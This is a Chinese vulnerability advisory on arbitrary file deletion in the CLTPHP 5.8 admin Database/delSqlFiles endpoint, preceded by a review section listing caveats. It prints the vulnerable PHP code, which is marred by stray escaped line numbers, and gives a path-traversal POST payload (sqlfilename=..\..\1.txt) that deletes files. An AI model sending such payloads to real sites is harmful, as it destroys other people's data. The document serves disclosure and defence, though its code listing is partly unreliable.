

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=5.8 asserted; admin Database/delSqlFiles access; backslash path Windows dependent

- **证据待核（1）**：Source code contaminated by literal escaped line numbers10–28。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **适用与权限边界（2）**：Route/name coherent with unlink sink, but no admin login/session steps or original reference。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（3）**：Regex-only mitigation too vague; constrain canonical path under backup directory。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# CLTPHP 5.8 后台任意文件删除漏洞

一、漏洞简介
------------

CLTPHP是基于ThinkPHP5开发，后台采用Layui框架的内容管理系统，

二、漏洞影响
------------

CLTPHP 5.8及之前版本

三、复现过程
------------

### 漏洞分析

`app/admin/controller/Database.php` 第221-248行：

    public function delSqlFiles() {  
      $batchFlag = input('param.batchFlag', 0, 'intval');  
      //批量删除  
      if ($batchFlag) {  
        $files = input('key', array());  
      }else {  
        $files[] = input('sqlfilename' , '');  
      }  
      if (empty($files)) {  
    \10.     $result['msg'] = '请选择要删除的sql文件!';  
    \11.     $result['code'] = 0;  
    \12.     return $result;  
    \13.   }  
    \14.  
    \15.   foreach ($files as $file) {  
    \16.     $a = unlink($this->datadir.'/' . $file);  
    \17.   }  
    \18.   if($a){  
    \19.     $result['msg'] = '删除成功!';  
    \20.     $result['url'] = url('restore');  
    \21.     $result['code'] = 1;  
    \22.     return $result;  
    \23.   }else{  
    \24.     $result['msg'] = '删除失败!';  
    \25.     $result['code'] = 0;  
    \26.     return $result;  
    \27.   }  
    \28. }  

在这段函数中，参数sqlfilename未经任何处理，直接带入unlink函数中删除，导致程序在实现上存在任意文件删除漏洞，攻击者可通过该漏洞删除任意文件。

### 漏洞复现

构造URL，成功删除根目录的1.txt文件

    http://www.0-sec.org/admin/Database/delSqlFiles.html

     
    POST: sqlfilename=..\\..\\1.txt

### 修复建议

> 对于要删除的文件，通过正则判断用户输入的参数的格式，看输入的格式是否合法。
